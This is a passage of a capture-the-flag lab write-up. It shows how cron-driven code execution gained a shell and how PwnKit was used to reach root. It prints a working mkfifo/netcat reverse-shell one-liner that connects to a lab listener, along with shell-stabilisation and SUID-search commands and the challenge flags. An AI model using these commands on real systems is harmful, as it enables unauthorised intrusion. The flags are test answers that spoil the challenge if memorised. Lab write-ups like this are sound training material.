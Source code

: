 Because the cron-run script read `.quotes`, I was able to plant a payload into `/opt/.dads_scripts/.files/.quotes`. Example reverse shell entry used for this lab (replace IP/port with your listener when in a lab):

```bash
echo "hacked; rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.76.195 8888 >/tmp/f" > /opt/.dads_scripts/.files/.quotes
```

After gaining an interactive shell, make it stable:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Inside the box, enumeration revealed `Super_Duper_Checklist` containing Task 2 token:

- flag (Task 2): THM{M37AL_0R_P3N_T35T1NG}

![Payload](payload.png)
![Flag Task 2](flag_tash2.png)

---

## Root privilege escalation

I searched for SUID binaries and other potential escalation vectors:

```bash
find / -type f -perm -4000 2>/dev/null
```

`/usr/bin/pkexec` (Polkit pwnkit) was present. I used a publicly available PwnKit exploit to escalate to root (downloaded to my machine, hosted via a simple HTTP server, fetched on target with `wget`, and executed). After successful exploitation I obtained a root shell.

Root flag was in `email_backup/email_2`:

- root flag: THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}

![PwnKit](pwnkit.png)
![Python Server](python_server.png)
![Download PwnKit](download_pwnkit.png)
![Root Access](root_access.png)
![Root Flag](root_flag.png)

---

## Summary

- Performed network and web enumeration (nmap, gobuster).
- Found credentials via FTP and encoded payloads.
- Gained a shell by leveraging a periodically executed script that read a writable file.
- Completed local privilege escalation via an available SUID/Polkit vector to obtain root.
- Collected user and root flags.

---